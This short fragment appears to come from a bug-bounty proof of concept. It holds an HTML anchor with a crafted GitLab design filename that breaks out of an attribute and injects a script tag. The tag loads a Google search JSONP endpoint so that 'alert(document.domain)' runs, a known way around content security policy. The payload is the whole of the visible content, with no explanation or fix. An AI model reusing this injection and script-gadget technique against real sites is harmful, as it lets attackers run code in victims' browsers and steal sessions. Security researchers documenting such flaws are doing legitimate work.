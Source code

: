 <a href='https://gitlab.com/vakzz-h1/design-xss/-/issues/2/designs/bbb%22class%3D%22gfm%22a%3D%27.png'>
' data-design="1" data-issue="1" data-reference-type="design" data-original="
  <script src='https://apis.google.com/complete/search?client=chrome&q=alert(document.domain);//&callback=setTimeout'></script>
"
</a>
